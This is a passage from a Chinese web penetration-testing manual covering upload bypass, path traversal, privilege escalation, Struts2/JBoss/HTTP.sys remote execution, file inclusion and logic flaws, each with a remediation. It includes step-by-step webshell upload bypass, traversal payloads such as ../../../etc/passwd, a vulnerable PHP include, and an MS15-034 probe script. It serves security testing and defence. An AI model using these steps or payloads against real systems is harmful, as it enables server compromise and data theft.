	-3. 上传文件是病毒、木马文件，攻击者用以诱骗用户或管理员下载执行；
	-4. 上传文件是钓鱼图片或为包含了脚本的图片，某些浏览器会作为脚本执行，实施钓鱼或欺诈；
	危害等级（参考）
	中危，可被利用后可以为高危
	
	检测条件
	已知Web网站在登录前或者登录后具有上传页面。
	1、上传的文件具备可执行性或能够影响服务器行为，所以文件所在的目录必须在WEB容器覆盖的路径之内；
	2、用户可以从WEB上访问这个文件，从而使得WEB容器解释执行该文件；
	3、上传后的文件必须经过安全检查，不会被格式化、压缩等处理改变其内容
	检测方法	
	上传方式根据不同的web语言，检测方法也各式各样，以下列举基于JS验证的上传的几种常见的文件上传绕过方法：
	1、我们直接删除代码中onsubmit事件中关于文件上传时验证上传文件的相关代码即可。如图：



	2、直接更改文件上传JS代码中允许上传的文件扩展名你想要上传的文件扩展名，如图所示：



	3、使用本地提交表单即可，如下图，作相应的更改，如图所示：



	4、使用burpsuite或者是fiddle等代理工具提交，本地文件先更改为jpg，上传时拦截，再把文件扩展名更改为asp即可，如图所示：



	5、当然也有不是基于JS验证的上传，例如一些中间件IIS，Nginx,，PHP,FCK编辑器等等的解析漏洞，其上传绕过方式也是多种多样。通过对上传页面进行检查，常见的文件上传检查针对文件类型进行，可以使用手动修改POST包然后添加%00字节用于截断某些函数对文件名的判断。除了修改文件名来绕过类型检查外，还可以修改文件头来伪造文件头，欺骗文件上传检查，如图，修改文件头中的类型来进行绕过：



	以上为几种常见的上传，更多的还需自行研究，进行上传绕过。以下为总体的测试流程：
	1、	登陆网站，并打开文件上传页面
	2、	点击“浏览”按钮，并选择本地的一个JSP文件（比如hacker.jsp），确认上传。
	3、	如果客户端脚本限制了上传文件的类型（比如允许gif文件），则把hacker.jsp更名为hacker.gif；配置HTTP Proxy（burp）进行http请求拦截；重新点击“浏览”按钮，并选择hacker.gift，确认上传。
	4、	在WebScarab拦截的HTTP请求数据中，将hacker.gif修改为hacker.jsp，再发送请求数据。
	5、	登陆后台服务器，用命令find / -name hacker.jsp查看hacker.jsp文件存放的路径。如果可以直接以Web方式访问，则构造访问的URL，并通过浏览器访问hacker.jsp，如果可以正常访问，则已经取得WebShell，测试结束。如果hacker.jsp无法通过web方式访问，例如hacker.jsp存放在/home/tmp/目录下，而/home/tomcat/webapps目录对应http://www.example.com/，则进行下一步
	6、	重复1～3，在burp拦截的HTTP请求数据中，将hacker.gif修改为../tomcat/webapps/hacker.jsp，再发送请求数据。
	在浏览器地址栏输入http://www.example.com/hacker.jsp，访问该后门程序，取得WebShell，结束检测。
	修复方案
	针对文件上传漏洞的特点和必须具备的三个条件，我们阻断任何一个条件就可以达到组织文件上传攻击的目的：
	1、最有效的，将文件上传目录直接设置为不可执行，对于Linux而言，撤销其目录的'x'权限；实际中很多大型网站的上传应用都会放置在独立的存储上作为静态文件处理，一是方便使用缓存加速降低能耗，二是杜绝了脚本执行的可能性；
	2、文件类型检查：强烈推荐白名单方式，结合MIME Type、后缀检查等方式（即只允许允许的文件类型进行上传）；此外对于图片的处理可以使用压缩函数或resize函数，处理图片的同时破坏其包含的HTML代码；
	3、使用随机数改写文件名和文件路径，使得用户不能轻易访问自己上传的文件；
	4、单独设置文件服务器的域名；
	其他说明	
### 4.4.7任意文件下载 ###
	漏洞名称	
	任意文件下载 ，文件遍历下载。
	漏洞描述	
	目录遍历（任意文件下载）漏洞不同于网站目录浏览，此漏洞不仅仅可遍历系统下web中的文件，而且可以浏览或者下载到系统中的文件，攻击人员通过目录遍历攻击可以获取系统文件及服务器的配置文件等等。一般来说，他们利用服务器API、文件标准权限进行攻击。严格来说，目录遍历攻击并不是一种web漏洞，而是网站设计人员的设计“漏洞”。如果web设计者设计的web内容没有恰当的访问控制，允许http遍历，攻击者就可以访问受限的目录，并可以在web根目录以外执行命令。
	危害等级（参考）
	中危，可被利用后可以为高危
	
	检测条件	
	网站URL中存在下载参数，并且未进行过滤../../../字符。
	
	检测方法	
	1、通过web漏洞扫描工具对网站实施扫描可能发现目录遍历或者任意文件下载漏洞，发送一系列”../”字符来遍历高层目录，并且尝试找到系统的配置文件或者系统中存在的敏感文件。
	2、也可通过判断网站语言，并根据其url中部分提供的参数，进行构造相关的路径信息，如收集到网站中间件版本为apache，则想办法构造../../../ WEB-INF/web.xml等，然后查看其是否可被下载出来。随后可构造下载系统文件。
	修复方案	
	净化数据：对用户传过来的文件名参数进行硬编码或统一编码，对文件类型进行白名单控制，对包含恶意字符或者空字符的参数进行拒绝。
	1、web应用程序可以使用chroot环境包含被访问的web目录，或者使用绝对路径+参数来访问文件目录，时使其即使越权也在访问目录之内。www目录就是一个chroot应用. 由chroot创造出的那个根目录，叫做“chroot监狱”（所谓"监狱"就是指通过chroot机制来更改某个进程所能看到的根目录，即将某进程限制在指定目录中，保证该进程只能对该目录及其子目录的文件有所动作，从而保证整个服务器的安全，详细具体chroot的用法，可参考：http://blog.csdn.net/frozen_fish/article/details/2244870
	2、任意文件下载漏洞也有可能是web所采用的中间件的版本低而导致问题的产生，例如ibm的websphere的任意文件下载漏洞，需更新其中间件的版本可修复。
	3、要下载的文件地址保存至数据库中。
	4、文件路径保存至数据库，让用户提交文件对应ID下载文件。
	5、用户下载文件之前需要进行权限判断。
	6、文件放在web无法直接访问的目录下。
	7、不允许提供目录遍历服务。
	8、公开文件可放置在web应用程序下载目录中通过链接进行下载。
	参考代码：
	public String download() throws Exception {
	    	//获取文件id
	String id = Struts2Utils.getRequest().getParameter("id");
			try {
				//通过id进行文件查询
	DownloadFile downFile = fileService.findEntityById(Long.parseLong(id));
				// 获取该附件的类型
				byte[] bt = null;
				bt = downFile.getContent(); 
				HttpServletResponse res  =Struts2Utils.getResponse();
				res.reset();
				res.setContentType("application/x-msdownload");
				res.setHeader("Content-Disposition", "attachment;filename="+ URLEncoder.encode(uacFile.getName(), "UTF-8"));
				OutputStream out = res.getOutputStream();
				out.write(bt);
				out.flush();
				out.close();
			} catch (Exception e1) {
				e1.printStackTrace();
			}
			return null;
	}	
### 4.4.8越权访问 ###
	漏洞名称	
	越权访问
	漏洞描述	
	越权访问，这类漏洞是指应用在检查授权（Authorization）时存在纰漏，使得攻击者在获得低权限用户帐后后，可以利用一些方式绕过权限检查，访问或者操作到原本无权访问的高权限功能。在实际的代码安全审查中，这类漏洞往往很难通过工具进行自动化检测，因此在实际应用中危害很大。其与未授权访问有一定差别。目前存在着两种越权操作类型：横向越权操作和纵向越权操作。前者指的是攻击者尝试访问与他拥有相同权限的用户的资源；而后者指的是一个低级别攻击者尝试访问高级别用户的资源,如图所示的情况。



	危害等级（参考）
	高危
	检测条件	
	Web业务存在不同级别的权限（角色）
	1、可通过用户名登录网站内进行功能的操作。
	2、Web业务正常运行
	检测方法
	以超管 admin（高权限用户） 身份登录系统
	1、找到一个只有超管（高权限）才有的功能的链接,比如说:"http://localhost/mywebappname/userManage/userList.do" , 显示出所有的user,并复制此链接.
	2、以普通用户登陆进系统,在地址栏输入: userManage/userList.do ,如果可以查看到其所有的user，则就造成了,普通用户的越权访问.
	检测说明：权限管理测试更多的是进行人工分析，自动化工具无法了解页面的具体应用场景以及逻辑判断过程。因此这里的测试需要首先测试人员理解测试业务系统的逻辑处理流程，并在此基础上进行如下测试。这里有几个测试的参考依据：
	①　页面是否进行权限判断；
	②　页面提交的资源标志是否与已登陆的用户身份进行匹配比对；
	③　用户登陆后，服务器端不应再以客户端提交的用户身份信息为依据，而应以会话中保存的已登陆的用户身份信息为准；
	④　必须在服务器端对每个请求URL进行鉴权，而不能仅仅通过客户端的菜单屏蔽或者按钮Disable来限制。
	
	修复方案	
	对用户操作进行权限校验，防止通过修改参数进入未授权页面及进行非法操作，建议在服务端对请求的数据和当前用户身份做一个校验检查。流程描述：在服务器接收到用户发送的页面访问请求时，根据预设的识别策略，从用户的页面访问请求中提取该用户对应的用户唯一标识信息，同时提取所述页面访问请求对应的应答页面中的表单及该表单中不可修改参数，将所述表单及不可修改参数与所述用户唯一标识信息绑定后记录到参数列表中；检测到用户提交请求页面的表单时，将所述请求页面的表单及不可修改参数与该用户对应的所述参数列表中记录的表单及不可修改参数进行比对，控制该用户的访问。例如： 
	登陆时将用户名存入session 
	session.setAttribute("username",username);
	在相关页面判断
	if((String)session.getAttribute("username")!=admin){
	(response.sendRedirect("XXX.jsp")};
	注意： xxx.jsp为自定义的错误页面。
		
##4.5命令执行类##
### 4.5.1Struts2 远程命令执行 ###
	漏洞名称
	Struts2 远程命令执行
	漏洞描述	
	Struts 2是在struts 和WebWork的技术基础上进行了合并的全新的框架。Struts2漏洞类型分为两种，一种是使用缩写的导航参数前缀时的远程代码执行漏洞，另一种是使用缩写的重定向参数前缀时的开放式重定向漏洞，Struts2远程命令执行，属于高危安全漏洞，可使黑客取得网站服务器的权限。这里我们重点描述相关远程命令执行漏洞。Struts2的DefaultActionMapper支持一种方法，可以使用”action:”, “redirect:” , “redirectAction:”对输入信息进行处理，从而改变前缀参数，这样操作的目的是方便表单中的操作。在2.3.15.1版本以前的struts2中，没有对”action:”, “redirect:” , “redirectAction:”等进行处理，导致ongl表达式可以被执行，如s2-020的漏洞中，利用ognl的class.xx这种方式来遍历属性。
	检测条件	
	已知Web网站用了struts 2的框架。
	危害等级（参考）
	高危
	
	检测方法	
	在了解网站所采用的结构框架后，除去伪静态页面，抓包或者读取页面源代码方式，查找到网站系统url为.do和.action结尾类型后，添加相应的远程命令执行代码进行判断。
	例如用户可以在http://host.com/X.action？后添加相对应struts2 漏洞的远程命令执行代码，或者直接利用工具K8 Struts2 Exploit.exe进行检测，以下列举几种
	常见的执行命令exp见附件：
	修复方案	
	建议及时更新struts2的版本到最新，如果暂时不能更新，则提供以下方案进行修复：
	1、除了升级以外：Struts2远程代码执行漏洞(S2-013) 临时解决方案：
	以下是S2-013的临时解决方案：
	修改文件：org.apache.struts2.views.util.DefaultUrlHelper 的281–284行：
	private String translateVariable(String input) { 
	  ValueStack valueStack = ServletActionContext.getContext().getValueStack(); 
	return TextParseUtil.translateVariables(input, valueStack); 
	}
	修改成
	 private String translateVariable(String input) { 
	return input; 
	}
	2、Struts2 s2-016/s2-017漏洞官网漏洞说明：
	http://struts.apache.org/release/2.3.x/docs/s2-016.html
	解决方案(以struts 2.1.8.1版本为例)：
	1.下载struts 2.1.8.1 源码struts-2.1.8.1-src.zip下载完成后,记得进行MD5验证
	2.eclipse建立一个war项目
	3.将struts-2.1.8.1-src.zip内的源码拖到项目的src目录下
	4.找到对应struts-2.1.8.1的xwork-core-2.1.6.jar放入war项目的WEB-INF/lib目录下此目的就是为了避免java文件带红叉
	5.修改org.apache.struts2.dispatcher.mapper.DefaultActionMapper.java此时文件应该没有红叉.有红叉主要是缺乏servlet-api.jar和xwork-core-2.1.6.jar在buildpath中改动如下: 这里采用网上jason.zhou的修改
	找到handleSpecialParameters方法,做下面红色字的修改: 
	    public void handleSpecialParameters(HttpServletRequest request,
	            ActionMapping mapping) {
	        // handle special parameter prefixes.
	        Set uniqueParameters = new HashSet();
	        Map parameterMap = request.getParameterMap();
	        for (Iterator iterator = parameterMap.keySet().iterator(); iterator
	                .hasNext();) {
	            String key = (String) iterator.next();
	            // Strip off the image button location info, if found
	            if (key.endsWith(".x") || key.endsWith(".y")) {
	                key = key.substring(0, key.length() - 2);
	            }
	            // -- jason.zhou 20130708 add start -- //
	            if ((key.contains("redirect:")) || (key.contains("redirectAction:")) || (key.contains("action:"))) {
	                return;
	            }
	            // -- jason.zhou 20130708 add end -- //
	            // Ensure a parameter doesn't get processed twice
	            if (!uniqueParameters.contains(key)) {
	                ParameterAction parameterAction = (ParameterAction) prefixTrie
	                        .get(key);
	                if (parameterAction != null) {
	                    parameterAction.execute(key, mapping);
	                    uniqueParameters.add(key);
	                    break;
	                }
	            }
	        }
	    }
	 6.点中org.apache.struts2.dispatcher.mapper.DefaultActionMapper.java,右键,导出(export),导出为JAR file存盘为test.jar
	7.用winrar打开test.jar,拷贝出org/apache/struts2/dispatcher/mapper/下的DefaultActionMapper类,一共有7个文件
	DefaultActionMapper$1.class
	DefaultActionMapper$2$1.class
	DefaultActionMapper$2$2.class
	DefaultActionMapper$2$3.class
	DefaultActionMapper$2$4.class
	DefaultActionMapper$2.class
	DefaultActionMapper.clas
	8.用winrar打开struts2-core-2.1.8.1.jar进入org/apache/struts2/dispatcher/mapper/目录,将将上面拷贝出的7个文件拷贝入,覆盖原来的同名文件。
	9.将struts2-core-2.1.8.1.jar拷贝入你自己的项目,覆盖原来的struts2-core-2.1.8.1.jar
	10.启动你的项目,重新s2-016漏洞进行测试如果发现测试结果正常(不响应.do?action:,.do?redrect:,.do?redirectAction),则证明补丁打好,漏洞被堵住了。
	
### 4.5.2Jboss远程代码执行 ###
	漏洞名称	
	Jboss远程代码执行, Jboss远程命令执行
	漏洞描述
	JBOSS默认配置会有一个后台漏洞，漏洞发生在jboss.deployment命名空间，中的addURL()函数,该函数可以远程下载一个war压缩包并解压。 如果压缩包里含有webshell文件，是直接可以解析的。
	危害等级（参考）
	高危
	
	检测条件	
	被测网站采用了JBOSS中间件架构
	检测方法	
	对于采用JBOSS的网站，首先判断其版本，如果版本为1.0.x版本，则可通过对其控制台的访问来判断，访问http://127.0.0.1:8080/jmx-console/，出现以下页面，则此漏洞可被利用：
	
	1、或者用工具jboss_exploit_fat.jar进行远程命令执行来判断是否存在漏洞，如图所示：





	修复方案	
	给jmx-console加上访问密码并且执行以下修复方式：
	1、在 ${jboss.server.home.dir}/deploy下面找到jmx-console.war目录编辑WEB-INF/web.xml文件 去掉 security-constraint 块的注释，使其起作用。
	2、编辑以下文件：
	编辑
	WEB-INF/classes/jmx-console-users.properties
	或
	server/default/conf/props/jmx-console-users.properties (version >=4.0.2)和 
	WEB-INF/classes/jmx-console-roles.properties
	或server/default/conf/props/jmx-console-roles.properties(version >=4.0.2) 添加用户名密码
	3、编辑WEB-INF/jboss-web.xml去掉 security-domain 块的注释 ，security-domain值的映射文件为 login-config.xml （该文件定义了登录授权方式）。
	4、对于invoker,采用以下方案：
	升级相关的JBOSS中间件到最新版本，或者对该删除 $JBOSS_HOME/[server]/all/deploy 和$JBOSS_HOME/[server]/default/deploy下的Jmx-console.war 、Web-console.war这两个.War文件来禁止对Jmx-console和Web-console的访问。实际案例：
	问题出现在$JBOSS_HOME/[server]/default/deploy下的Http-invoker.sar/invoker.war包上，通过删除该.war文件已经修复该问题
### 4.5.3HTTP.sys远程代码执行漏洞 ###
	漏洞名称	
	HTTP.sys远程代码执行漏洞
	漏洞描述	
	Http.sys是Microsoft Windows处理HTTP请求的内核驱动程序。HTTP.sys会错误解析某些特殊构造的HTTP请求，导致远程代码执行漏洞。成功利用此漏洞后，攻击者可在System帐户上下文中执行任意代码。由于此漏洞存在于内核驱动程序中，攻击者也可以远程导致操作系统蓝屏。此次受影响的系统中，Windows 7、Windows 8、Windows Server 2008 R2 和 Windows Server 2012所带的HTTP.sys驱动均存在一个远程代码执行漏洞，远程攻击者可以通过IIS 7（或更高版本）服务将恶意的HTTP请求传递给HTTP.sys驱动，通过发送恶意的HTTP请求导致远程代码执行或操作系统蓝屏.
	危害等级（参考）
	高危
	
	检测条件	
	被测网站采用了windows平台中的IIS中间件架构。
	检测方法	
	通过客户自助门户系统进行检测，参考链接：https://portal.test.com/vulnerability/list/，找到对应的漏洞检测模块，输入相关信息，进行检测，如图所示：



	1、或者通过人工执行python脚本进行检测，相关代码参考如下：
	import socket
	import random
	
	ipAddr = ""
	hexAllFfff = "18446744073709551615"
	
	req1 = "GET / HTTP/1.0\r\n\r\n"
	req = "GET / HTTP/1.1\r\nHost: stuff\r\nRange: bytes=0-" + hexAllFfff + "\r\n\r\n"
	
	print "[*] Audit Started"
	client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	client_socket.connect((ipAddr, 80))
	client_socket.send(req1)
	boringResp = client_socket.recv(1024)
	if "Microsoft" not in boringResp:
	                print "[*] Not IIS"
	                exit(0)
	client_socket.close()
	client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	client_socket.connect((ipAddr, 80))
	client_socket.send(req)
	goodResp = client_socket.recv(1024)
	if "Requested Range Not Satisfiable" in goodResp:
	                print "[!!] Looks VULN"
	elif " The request has an invalid header name" in goodResp:
	                print "[*] Looks Patched"
	else:
	                print "[*] Unexpected response, cannot discern patch status"
	执行效果如图所示：



	修复方案	
	厂商已在安全公告MS15-034中修复了此安全漏洞。我们建议用户开启自动更新服务以及时安装最新补丁，如果不能进行升级，可通过禁用IIS 内核缓存来临时缓解此漏洞的危险，但这可能会导致IIS性能下降，配置方法：：
	1、打开 IIS 管理器，然后导航至您要管理的级别。有关如何在UI的各个位置间进行导航的信息，请参阅在IIS管理器中导航。
	2、在“功能视图”中，双击“输出缓存”。
	3、在“输出缓存”页中的“操作”窗格中，单击“编辑功能设置”。
	4、在“编辑输出缓存设置”对话框中，单击“启用内核缓存”以将其选中，然后单击“确定”。	
### 4.5.4文件包含 ###
	漏洞名称	
	文件include漏洞、文件包含
	漏洞描述	
	文件包含是指程序代码在处理包含文件的时候没有严格控制。导致用户可以构造参数包含远程代码在服务器上执行，并得到网站配置或者敏感文件，进而获取到服务器权限，造成网站被恶意删除，用户和交易数据被篡改等一系列恶性后果。主要包括本地文件包含和远程文件包含两种形式，由于开发人员编写源码，开放着将可重复使用的代码插入到单个的文件中，并在需要的时候将它们包含在特殊的功能代码文件中，然后包含文件中的代码会被解释执行。由于并没有针对代码中存在文件包含的函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端解释执行。文件包含攻击中WEB服务器源码里可能存在inlcude()此类文件包含操作函数，可以通过客户端构造提交文件路径，是该漏洞攻击成功的最主要原因。
	危害等级（参考）
	中危，可被利用后可以为高危
	检测条件	
	1、Web应采用include()等文件包含函数通过动态变量的方式引入需要包含的文件.
	2、用户能够控制该动态变量
	检测方法
	常见的文件包含漏洞，出现在以PHP语言开发的网站中，例如以下代码采用了指定用户的名称，并将该名称包含在要呈现的 PHP 页面中，
	<?php
	include($_GET['name']);
	?>
	1、通过提供给 name 一个恶意数值，导致程序包含来自外部站点的文件，从而可以完全控制动态包含指令。比如提交：
	http://test.com/test.php?name=../../../etc/passwd
	2、如果我们为动态包含指令指定一个有效文件，那么该文件的内容会被传递给 PHP 解析器,可直接在远程服务器上执行任意PHP文件。如果我们能够指定一条路径来指向被自己控制的远程站点，那么动态 include 指令就会执行提供的任意恶意代码，也就是所谓的“远程文件包含”。
	3、构造类型复杂，还需自行研究，进行文件包含的利用。
	修复方案	
	PHP:配置php.ini关闭远程文件包含功能(allow_url_include = Off)
	1、严格检查变量是否已经初始化。
	2、建议假定所有输入都是可疑的，尝试对所有输入提交可能可能包含的文件地址，包括服务器本地文件及远程文件，进行严格的检查，参数中不允许出现../之类的目录跳转符。
	3、严格检查include类的文件包含函数中的参数是否外界可控。
	4、不要仅仅在客户端做数据的验证与过滤，关键的过滤步骤在服务端进行。
	5、在发布应用程序之前测试所有已知的威胁。

## 4.6逻辑攻击类 ##
### 4.6.1验证码功能缺陷 ###
	漏洞名称	
	验证码失效、验证码功能缺陷
	漏洞描述	
	验证码就是每次访问页面时随机生成的图片，内容一般是数字和字母（更BT点的有中文，现在已经升级到图片，动画等验证码），需要访问者把图中的数字字母填到表单中提交，这样就有效地防止了暴力破解。验证码也用于防止恶意灌水、广告帖等。在登陆的地方访问一个脚本文件，该文件生成含验证码的图片并将值写入到session里，提交的时候验证登陆的脚本就会判断提交的验证码是否与session里的一致。目前常常会出现验证码失效或者被绕过的可能，也成为了当前产生web漏洞的一个问题。
	危害等级（参考）
	中危，可被利用后可以为高危
	
	检测条件	
	Web业务运行正常
	登录页面或者注册，以及其它交互页面，具有验证码功能
	检测方法	
	登陆页面是否存在验证码，不存在说明存在漏洞，完成检测
	1、验证码和用户名、密码是否一次性、同时提交给服务器验证，如果是分开提交、分开验证，则存在漏洞
	2、在服务器端，是否只有在验证码检验通过后才进行用户名和密码的检验，如果不是说明存在漏洞。（检测方法：输入错误的用户名或密码、错误的验证码。观察返回信息，是否只提示验证码错误，也就是说当验证码错误时，禁止再判断用户名和密码。）
	3、验证码是否为图片形式且在一张图片中，不为图片形式或不在一张图片中，说明存在漏洞，完成检测
	4、生成的验证码是否可以通过html源代码查看到，如果可以说明存在漏洞，完成检测
	5、生成验证码的模块是否根据提供的参数生成验证码，如果是说明存在漏洞，完成检测
	6、请求10次观察验证码是否随机生成，如果存在一定的规律（例如5次后出现同一验证码）说明存在漏洞，完成检测
	7、观察验证码图片中背景是否存在无规律的点或线条，如果背景为纯色（例如只有白色）说明存在漏洞，完成检测
	8、验证码在认证一次后是否立即失效：
	修复方案	
	修复方式如下：
	1、系统在开发时注意验证识别后销毁session中的验证码。
	2、限制用户提交的验证码不能为空
	3、判断提交的验证码与服务器上存储的是否一致
	4、无论是否一致，都将服务器上存储的验证码清空
	
### 4.6.2并发漏洞 ###
	漏洞名称	
	并发漏洞
	漏洞描述	  
	并发漏洞，常属于逻辑业务中的漏洞类型，例如攻击者通过并发http/tcp请求而达到次获奖、多次收获、多次获赠等非正常逻辑所能触发的效果。下面以简化的例子说明在交易的Web应用程序中潜在的并行问题，并涉及联合储蓄帐户中的两个用户（线程）都登录到同一帐户试图转账的情况：
	帐户A有100存款，帐户B有100存款。用户1和用户2都希望从帐户A转10分到帐户B.
	如果是正确的交易的结果应该是：帐户A 80分，帐户B 120分。
	然而由于并发性的问题，可以得到下面的结果：
	用户1检查帐户A （ = 100 分）
	用户2检查帐户A （ = 100 分）
	用户2需要从帐户A 拿取10 分（ = 90 分） ，并把它放在帐户B （ = 110 分）
	用户1需要从帐户A 拿取10分（仍然认为含有100 个分）（ = 90 分） ，并把它放到B（ = 120 分）
	结果：帐户A 90 分，帐户B 120 分。
	危害等级（参考）
	中危
	
	检测条件	
	Web业务运行正常
	Web业务存在逻辑上的并发漏洞。
	检测方法	
	发送并发http/tcp请求，查看并发前后CGI 功能是否正常。例如：并发前先统计好数据，并发后再统计数据，检查2次数据是否合理。
	修复方案	
	对数据库操作加锁
	
### 4.6.3慢速攻击 ###
	漏洞名称	
	Slow Http attack、慢速攻击
	漏洞描述	
	慢速攻击基于HTTP协议，通过精心的设计和构造，这种特殊的请求包会造成服务器延时，而当服务器负载能力消耗过大即会导致拒绝服务。HTTP协议规定，HTTP Request以\r\n\r\n（0d0a0d0a）结尾表示客户端发送结束，服务端开始处理。那么，如果永远不发送\r\n\r\n就会产生慢速攻击的漏洞，常见的Slowloris就是利用这一点来做DDoS攻击的。攻击者在HTTP请求头中将Connection设置为Keep-Alive，要求Web Server保持TCP连接不要断开，随后缓慢地每隔几分钟发送一个key-value格式的数据到服务端，如a:b\r\n，导致服务端认为HTTP头部没有接收完成而一直等待。如果攻击者使用多线程或者傀儡机来做同样的操作，服务器的Web容器很快就被攻击者占满了TCP连接而不再接受新的请求\r\n\r\n， 每隔几分钟写入一些无意义的数据流， 拖死机器。
	危害等级（参考）
	低危
	检测条件
	Web业务运行正常
	HTTP请求头中Connection可设置。
	检测方法	
	通过web扫描工具，可发现该类漏洞，但不一定准确。
	1、或者通过kali环境下的slowhttptest工具来进行检测，它是一款对服务器进行慢攻击的测试软件，包含了几种攻击方式，像Slowloris、SlowHTTP POST、Slow Read attack等。在执行相关的命令或者参数后，发现网站访问缓慢，则存在该漏洞

